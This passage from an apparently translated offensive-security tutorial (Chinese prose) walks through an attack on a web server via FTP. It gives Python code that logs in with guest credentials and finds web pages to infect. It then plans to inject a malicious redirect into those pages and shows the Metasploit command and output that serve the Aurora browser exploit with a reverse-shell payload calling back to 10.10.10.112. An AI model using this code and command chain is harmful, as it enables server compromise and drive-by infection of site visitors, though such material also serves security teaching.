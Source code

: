 ```py
# coding=UTF-8
import ftplib
def returnDefault(ftp):
 try:
 dirList = ftp.nlst()
 except:
 dirList = []
 print('[-] Could not list directory contents.')
 print('[-] Skipping To Next Target.')
 return
 retList = []
  for fileName in dirList:
 fn = fileName.lower()
 if '.php' in fn or '.htm' in fn or '.asp' in fn:
 print('[+] Found default page: ' + fileName)
 retList.append(fileName)
 return retList
host = '192.168.95.179'
userName = 'guest'
passWord = 'guest'
ftp = ftplib.FTP(host)
ftp.login(userName, passWord)
returnDefault(ftp)
```

看着这个脆弱的FTP服务器，我们可以看到它有三个WEB页面在基目录下。好极了，我们知道可以移动我们的攻击向量到我们的被感染的页面。

```
attacker# python defaultPages.py
[+] Found default page: index.html
[+] Found default page: index.php
[+] Found default page: testmysql.php
```

**添加恶意注入脚本到 WEB 页面**

现在我们已经找到了WEB页面文件，我们必须用一个恶意的重定向感染它。为了快速的生成一个恶意的服务器和页面在 http://10.10.10.112:8080/exploit  页面，我们将使用Metasploit框架。注意，我们选择 ms10_002_aurora的Exploit,同样的Exploit被用在攻击Google的极光行动中。位与 http://10.10.10.112:8080/exploit 的页面将重定向到受害者，这将返回给我们一个反弹的Shell。

```
attacker# msfcli exploit/windows/browser/ms10_002_aurora
 LHOST=10.10.10.112 SRVHOST=10.10.10.112 URIPATH=/exploit
 PAYLOAD=windows/shell/reverse_tcp LHOST=10.10.10.112
LPORT=443 E
[*] Please wait while we load the module tree...
<...SNIPPED...>
LHOST => 10.10.10.112
SRVHOST => 10.10.10.112
URIPATH => /exploit
PAYLOAD => windows/shell/reverse_tcp
LHOST => 10.10.10.112
LPORT => 443
[*] Exploit running as background job.
[*] Started reverse handler on 10.10.10.112:443
[*] Using URL:http://10.10.10.112:8080/exploit
[*] Server started.
msf exploit(ms10_002_aurora) >
```
